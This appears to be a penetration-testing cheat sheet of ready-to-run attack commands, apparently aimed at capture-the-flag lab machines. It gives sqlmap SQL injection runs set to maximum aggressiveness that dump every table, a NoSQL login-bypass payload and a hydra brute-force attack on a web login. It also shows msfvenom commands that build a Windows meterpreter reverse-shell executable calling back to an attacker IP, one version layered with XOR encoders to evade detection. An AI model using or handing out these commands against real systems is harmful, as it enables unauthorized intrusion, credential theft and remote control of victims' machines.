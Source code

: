  
## Tools

# Web Attacks

 - Hidden comments in source code (paths, password, ...)
 - SQLi

```
# sqlmap -u http://10.10.10.151/user/login.php --data 'username=test&password=test&submit
```

```
# sqlmap -u 'http://url/api' \
   --headers 'Content-Type: application/json' \
   --data '{"query":"{ xxx(id: \"*\"){ yyy, zzz} }"}' \ # Specify the entrypoint with *
   --level=5 --risk=3 \ # Max aggressivity
   --dbms "MySQL" \ 
   --technique="UB" \ # Specify the type of attack (here union/boolean)
   -D a_db -T a_table -a \ # Database & db to target
   --all # retrieve all the tables
```

 - NoSQLi

    curl http://site/ --data "username[$ne]=toto&password[$ne]=toto&Submit=Sign+in"

 - BruteForce Online

    hydra -L users.txt -P /usr/share/wordlists/rockyou.txt  website  http-post-form "/:username=^USER^&password=^PASS^&login=login:Forgot Password"


# Metasploit

## Msfconsole

Finding a specific exploit

    msf5 > grep eternal search blue



## Meterpreter

Generate meterpreter

    # msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.10.14.8 lport=4444 verbose=true -f exe -o reverse.exe
    # msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.28 lport=80 verbose=true -f raw | msfvenom --platform windows -a x64 -e x64/xor -i 42 -f raw | msfvenom -a x64 --platform windows -e x64/xor_context -i 17 -f raw | msfvenom -a x64 --platform windows -e x64/xor_dynamic -i 30 -f exe -o /smb/reverse.exe 

